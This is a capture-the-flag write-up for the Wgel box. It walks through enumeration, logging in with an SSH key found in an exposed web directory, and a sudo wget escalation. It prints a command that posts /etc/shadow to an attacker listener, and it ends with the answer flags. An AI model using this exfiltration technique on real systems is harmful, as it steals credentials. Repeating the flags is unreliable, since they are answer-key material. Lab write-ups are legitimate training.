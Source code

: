 # Wgel CTF

Have fun with this easy box.

## Enumeration

First we start with basic nmap scan to see which ports are open.

![nmap basic scan](/IMAGES/Wgel%20CTF/nmap%20scan.png)

Here we can see that two ports are open:

- port 22 running ssh
- port 80 running http

Since ssh is no use to us right now since we dont have any login credentials lets see whats running on http

![http webpage](/IMAGES/Wgel%20CTF/base%20url%20page.png)

It seems like a basic apache web server.

Upon inspecting the code I found a commented code which contains the name `"Jessie"` a probabale username for ssh login

![username](/IMAGES/Wgel%20CTF/username.png)

---

## Directory BruteForcing

After discovering the ssh username we still need a password or rsa file to login. So we try finding hidden directories using `gobuster`. 

![running gobuster](/IMAGES/Wgel%20CTF/running%20gobuster%20on%20base%20url.png)

We discover a hidden directory named `"sitemap"` so we visit the url in browser

![sitemap page](/IMAGES/Wgel%20CTF/sitemap%20page.png)

Upon inspecting the page data and code we dont find anything interesting

So what can we do next ? Maybe there is a subdirectory ?

To check for a subdirectory we run `gobuster` on the hidden directory

![subdirectory](/IMAGES/Wgel%20CTF/subdirectories.png)

Great! we found a subdirectory `/.ssh` which may contain useful information based on the naming. Looking up on this url in the browser we get the following web page

![subdirectory webpage](/IMAGES/Wgel%20CTF/subdirectory%20web%20page.png)

We move into `id_rsa` and find rsa key for ssh login

![id_rsa](/IMAGES/Wgel%20CTF/id_rsa%20webpage.png)

We now need to save this rsa key on our local attack machine so we simply copy it and save it in a file

![saving id_rsa](/IMAGES/Wgel%20CTF/saving%20rsa%20key.png)

Also we need to grant it running privileges

![granting chmod 600 privileges](/IMAGES/Wgel%20CTF/chmod%20rsa.png)

Since we now have both the username `"Jessie"` and the id_rsa we can now easily login via `ssh`

![logging via ssh](/IMAGES/Wgel%20CTF/logging%20in%20with%20ssh.png)

---

## Privilege Escalation

Now we explore a bit around the system with some basic `ls` and `ls -la` commands to see if any useful information we can extract. 

Moving around the system we discover `user_flag.txt` in the `Documents` folder!

![user_flag](/IMAGES/Wgel%20CTF/userflag.png)

Now we need to find the root flag

So we check permissions for the current user `"Jessie"` by `sudo -l` command

![checking jessie permissions](/IMAGES/Wgel%20CTF/sudo%20-l.png)

From the above command output we can clearly see that we can run `wget` without password

So we need to find a way to exploit it and gain root access. A way is to start a netcat listener on local machine and extract any useful file using wget to our attack machine.

So we start a netcat listener on port `555`

![starting listener](/IMAGES/Wgel%20CTF/starting%20listener.png)

After that on our target machine we run the following command to `wget` the `/etc/shadow` file 

`sudo /usr/bin/wget --post-file=/etc/shadow http://<YOUR_TUN0_IP>:5555
`

![sending file](/IMAGES/Wgel%20CTF/sending%20http%20file%20to%20nc%20.png)

On viewing the listener now we found jessie's password hash

![jessie password hash](/IMAGES/Wgel%20CTF/jessie%20password%20hash.png)

Now we can proceed to saving this hash in a file and then crack it with `john` or `hashcat`

![saving jessie's password hash](/IMAGES/Wgel%20CTF/saving%20hash.png)

After that we used `john` to crack the password but it took too long to crack so I aborted the process

So maybe there is another way ?

If we can send the `/etc/shadow` file using wget, cant we just send the root flag to our attack machine as well ?

Upon analyzing the naming pattern for user flag file: `user_flag.txt` we can guess that the root flag will be contained in a file with name like: `root_flag.txt` ?

So lets try sending this file through wget

![sending root flag](/IMAGES/Wgel%20CTF/sending%20root%20file%20.png)

Now switching to our netcat listener to see what we get after this 

![root flag](/IMAGES/Wgel%20CTF/root%20flag.png)

**Yayy! We got our root flag as well !**

---

## Answer the questions below

- User flag

    `057c67131c3d5e42dd5cd3075b198ff6
`

- Root flag

    `b1b968b37519ad1daa6408188649263d`

---